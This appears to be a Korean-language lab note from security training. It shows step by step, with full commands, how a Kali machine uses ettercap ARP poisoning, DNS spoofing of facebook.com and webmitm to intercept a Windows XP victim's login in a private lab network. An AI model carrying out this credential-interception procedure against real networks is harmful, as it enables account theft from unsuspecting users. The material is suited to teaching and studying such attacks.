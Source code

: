 - 공격자 : Kali
- 공격 대상 : Win XP 또는 CentOS
- 원하는 사이트를 선택하여 계정 정보 확인
- 공격 순서에 맞게 패킷 분석



###### XP

ncpa.cpl -> dns 를 168.126.63.1 로 변경 -> 인터넷 : facebook 접속 -> 인증서 확인

공격 하기 전에 cmd -> ipconfig /flushdns 로 캐시 지워주기 -> ipconfig /displaydns 확인



###### 칼리

ettercap 이용해서 속일거야

root@KH200-kali:~# vim /etc/ettercap/etter.dns

```

facebook.com    A       172.16.10.100
*.facebook.com  A       172.16.10.100

-> 맨 밑에 이거 추가

```

root@KH200-kali:~# ettercap -T -i eth0 -M arp:remote //172.16.10.10// //172.16.10.254// -P dns_spoof



탭2

root@KH200-kali:~# vim /etc/resolv.conf

```
nameserver 168.126.63.1

```

아까 했던거 지워주고 다시 실행하기

root@KH200-kali:~# rm -rf webmitm.crt
root@KH200-kali:~# webmitm



###### XP

cmd -> nslookup -> www.facebook.com 하면 168.126.63.1 alxdpsms 172.16.10.100 뜸



###### 칼리

와이어샤크 실행 -> 필터 : SSL

다시 XP 로 넘어와서 인터넷 -> 페이스북 접속되는거 확인



이더캡 끄고 webmitm만 켜야함~!!!!

-> 페북 접속 -> 로그인 (틀린비번으로) -> 와이어샤크 확인 -> 인증서 등록











